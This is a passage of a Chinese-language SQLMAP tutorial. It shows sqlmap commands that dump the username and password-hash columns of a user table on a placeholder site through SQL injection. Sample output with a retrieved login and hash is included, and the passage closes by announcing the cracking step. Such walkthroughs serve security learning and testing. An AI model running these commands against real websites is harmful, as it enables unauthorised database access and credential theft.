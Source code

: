 0x05 从指定的数据库的表中列出用户名
--------------------

* * *

SQLMAP的SQL注入非常简单！再次运行下面的命令吧：

```
sqlmap -u http://www.sqldummywebsite.com/cgi-bin/item.cgi?item_id=15 -D sqldummywebsite -T user_info -C user_login --dump

```

现在我们有了数据库的用户名了：

```
[10:58:39] [INFO] retrieved: userX
[10:58:40] [INFO] analyzing table dump for possible password hashes

```

![2014052915114612604.png](http://drops.javaweb.org/uploads/images/606fa2df50880af4849206fb429c2546efc044ba.jpg)

现在我们只需要这个用户的密码了，下面就来介绍如何得到密码！

0x06 提取用户密码
-----------

* * *

你可能已经习惯如何使用SQLMAP了！使用下面的参数来提取密码字段的数值吧！

```
sqlmap -u http://www.sqldummywebsite.com/cgi-bin/item.cgi?item_id=15 -D sqldummywebsite -T user_info -C user_password --dump

```

现在我们得到密码字段了：

```
[10:59:15] [INFO] the SQL query used returns 1 entries
[10:59:17] [INFO] retrieved: 24iYBc17xK0e.
[10:59:18] [INFO] analyzing table dump for possible password hashes
Database: sqldummywebsite
Table: user_info
[1 entry]
+---------------+
| user_password |
+---------------+
| 24iYBc17xK0e. |
+---------------+

```

![2014052915045923606.png](http://drops.javaweb.org/uploads/images/2b5eb402aeef55471e24ef348b4315bfdbc2f1a9.jpg)

虽然我们得到了密码字段的值，但是却是密码的HASH值，现在我们需要解密这个密码了。我之前已经探讨过在Kali Linux上如何解密MD5、phpBB、MySQL和SHA-1。
